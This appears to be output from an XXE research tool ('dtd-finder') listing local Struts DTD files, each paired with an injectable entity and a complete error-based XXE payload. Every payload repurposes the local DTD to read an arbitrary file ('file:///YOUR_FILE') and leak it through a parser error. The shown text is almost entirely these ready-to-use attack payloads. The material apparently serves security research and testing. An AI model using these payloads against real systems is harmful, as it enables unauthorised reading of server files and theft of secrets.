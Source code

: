 **Injectable entity:** `RequestScope`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % RequestScope '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```